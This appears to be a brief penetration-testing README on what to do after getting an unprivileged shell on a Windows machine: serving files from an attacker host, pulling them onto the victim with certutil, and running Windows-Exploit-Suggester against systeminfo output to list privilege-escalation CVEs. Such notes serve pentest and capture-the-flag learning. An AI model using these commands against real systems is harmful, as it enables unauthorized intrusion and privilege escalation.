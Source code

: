 This post contents is about when you get a low, unprivileged shell on a Windows Machine.
First and foremost thing is to upload files on the system.
### Steps:
    Start server on attacker machine:
    >python3 -m http.server 80 #on attacker machine
    On victim machine:
    >certutil.exe -urlcache -split -f http://<ip><port>/path/to/file

Easy way to check for privilege escalation vulnerabilties is to use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) 
Steps to use Windows-Exploit-Suggester
### Steps:
    On attacker machine:
    Install xlrd python library.
    >python windows-exploit-suggester.py -update #this will create a .xls file which will contain all ms cve's   
    On victim MS machine, run systeminfo to fetch system information, and save it locally on attacking machine as sys.txt.
    Then on attacking machine use
    >python windows-exploit-suggester.py --database file.xls --systeminfo sys.txt
    It will list all the vulnerabilties. 
    Note: [E] means Exploitdb, [M] means metasploitable
